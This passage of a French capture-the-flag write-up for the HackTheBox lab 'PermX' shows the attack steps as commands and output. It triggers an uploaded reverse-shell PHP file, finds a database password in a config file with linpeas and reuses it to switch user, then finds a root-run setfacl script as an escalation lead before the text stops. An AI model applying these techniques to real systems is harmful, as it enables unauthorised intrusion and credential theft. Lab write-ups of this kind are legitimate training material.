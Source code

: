 Ensuite, on execute le fichier désormais présent dans le dossier et ça ouvre le reverse shell:
```bash
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/reverseshell.php
```

## www-data -> mtz

### User Found : mtz
On trouve le user **mtz** dans le **/home**.

### configuration.php : mtz password
Après l'execution de **linpeas.sh**, on trouve un mot de passe :
```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/chamilo/app/config/configuration.php:                'show_password_field' => false,
/var/www/chamilo/app/config/configuration.php:                'show_password_field' => true,
...
/var/www/chamilo/app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
...
```
On peut désormais se connecter avec le mot de passe **03F6lY3uXAP2bkW8** pour l'utilisateur **mtz** :
```bash
www-data@permx:/home$ su mtz
Password: 03F6lY3uXAP2bkW8
mtz@permx:/home$ cat us
cat: us: No such file or directory
mtz@permx:/home$ ls
mtz
mtz@permx:/home$ cd mtz/
mtz@permx:~$ cat user.txt 
a45e.....7836
```

## Privilege Escalation

### /opt/acl.sh as root
On fait sudo -l, on observe que l'on peut executer le script suivant en tant que root :
**/opt/acl.sh**
```bash
##!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

## Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```